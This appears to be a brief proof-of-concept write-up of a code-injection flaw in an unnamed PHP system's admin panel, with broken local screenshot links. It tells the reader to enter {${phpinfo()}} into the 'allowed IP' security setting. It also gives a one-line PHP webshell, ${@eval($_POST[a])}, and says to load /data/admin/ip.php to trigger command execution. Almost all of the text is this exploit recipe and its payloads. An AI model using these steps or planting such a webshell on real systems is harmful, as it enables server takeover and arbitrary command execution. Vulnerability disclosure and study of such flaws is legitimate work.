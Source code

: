 1、Download the source package and build it locally. Log in to the background, click System, then click Mail Server Settings, Background IP Security Settings

![image-20220324214456428](/Users/ming/Library/Application Support/typora-user-images/image-20220324214456428.png)

2、Then write malicious code in the allowed IP, write {${phpinfo()}} here, if you need to write a sentence Trojan for command execution, write ${@eval($_POST[a])}, then Refresh the page, or visit /data/admin/ip.php in the root directory

![image-20220324214711973](/Users/ming/Library/Application Support/typora-user-images/image-20220324214711973.png)

![image-20220324214725088](/Users/ming/Library/Application Support/typora-user-images/image-20220324214725088.png)